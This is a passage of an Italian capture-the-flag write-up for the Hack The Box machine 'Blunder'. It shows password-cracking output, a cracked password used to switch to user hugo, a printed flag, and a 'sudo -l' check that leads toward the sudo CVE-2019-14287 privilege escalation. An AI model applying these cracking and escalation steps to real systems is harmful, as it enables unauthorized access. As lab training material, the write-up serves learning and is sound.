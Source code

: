 ```bash
Restore.Sub.#1...: Salt:0 Amplifier:0-77 Iteration:0-77
Candidate.Engine.: Device Generator
Candidates.#1....: doidinha -> 484848
Hardware.Mon.#1..: Util: 82%

Started: Thu Oct 26 06:29:54 2023
Stopped: Thu Oct 26 06:30:01 2023
```

anche [Crackstation](https://crackstation.net) è stato in grado di forzare l'hash

![](../Hackthebox-OSCP-Prepartion/zzz_rev/attachments/blunder5.png)

loggiamoci come utente hugo con il comando `su hugo`

```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ su hugo
Password:
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$

```

e ci prendiamo la nostra user_flag

```bash
hugo@blunder:~$ cat user.txt
65461e5180b46fb624a74544e907548d
```

## hugo --> root

Visto che abbiamo la password di hugo eseguiamo un `sudo -l` per vedere se possiamo eseguire qualcosa come utente root

```bash
hugo@blunder:~$ sudo -l
Password:
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

Ciò significa che posso eseguire sudo /bin/bash come qualsiasi utente tranne root, il che è un peccato, poiché root è l'utente con cui voglio eseguirlo.

###### CVE-2019-14287

La configurazione sopra dovrebbe impedire a sudo di funzionare come utente root. Nel novembre 2019 è stato rilasciato un CVE pubblico su come esistessero altri modi per accedere a root oltre a root per aggirare questa restrizione. Ciò influisce sulle versioni sudo precedenti alla 1.8.28. Vedo che Blunder è in esecuzione 1.8.25:

```bash
hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```
